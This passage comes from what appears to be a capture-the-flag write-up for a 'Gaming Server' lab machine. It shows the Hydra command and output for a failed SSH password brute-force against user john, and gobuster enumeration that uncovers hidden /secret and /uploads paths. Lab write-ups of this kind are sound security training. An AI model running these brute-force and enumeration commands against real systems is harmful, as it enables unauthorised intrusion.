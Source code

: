 3 files are hosted in this directory:

* `/uploads/dict.lst`: a dictionary, likely to be used to bruteforce passwords.
* `/uploads/manifesto.txt`: a manifesto file written by a hacker, not interesting here.
* `/uploads/meme.jpg`: a picture, not interesting here

At this stage, I tried to brute force john's SSH password using the `dict.lst` dictionary, but it failed:

~~~
kali@kali:/data/Gaming_Server/files$ hydra -l john -P dict.lst ssh://10.10.165.55
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-02 15:34:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking ssh://10.10.165.55:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 46 to do in 00:01h, 16 active
1 of 1 target completed, 0 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-02 15:36:35
~~~

## gobuster

Further enumerating the web server with `gobuster`, I was able to find a hidden `/secret` location:

~~~
kali@kali:/data/Gaming_Server/files$ gobuster dir -u http://10.10.165.55 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.165.55
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/02 13:26:41 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
~~~
